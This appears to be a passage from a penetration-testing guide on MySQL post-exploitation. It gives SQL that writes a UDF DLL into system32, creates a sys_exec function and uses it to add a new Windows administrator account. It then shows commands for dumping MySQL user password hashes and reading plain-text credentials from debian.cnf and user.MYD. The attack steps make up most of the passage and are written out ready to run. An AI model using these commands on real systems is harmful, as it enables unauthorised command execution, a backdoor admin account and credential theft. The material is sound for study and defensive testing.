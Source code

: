 #### Windows

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

### Extracting MySQL credentials from the database

```sql
SELECT User,Host,Password FROM mysql.user;
SELECT User,Host,authentication_string FROM mysql.user;
```

```bash
mysql -u root --password=<PASSWORD> -e "SELECT User,Host,authentication_string FROM mysql.user;"
```

### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the mysql database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** \(the ones that you can extract from mysql.user inside the database\)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Enabling logging

You can enable logging of mysql queries inside `/etc/mysql/my.cnf` uncommenting the following lines:

![](../.gitbook/assets/image%20%28308%29.png)

### Useful files

Configuration Files
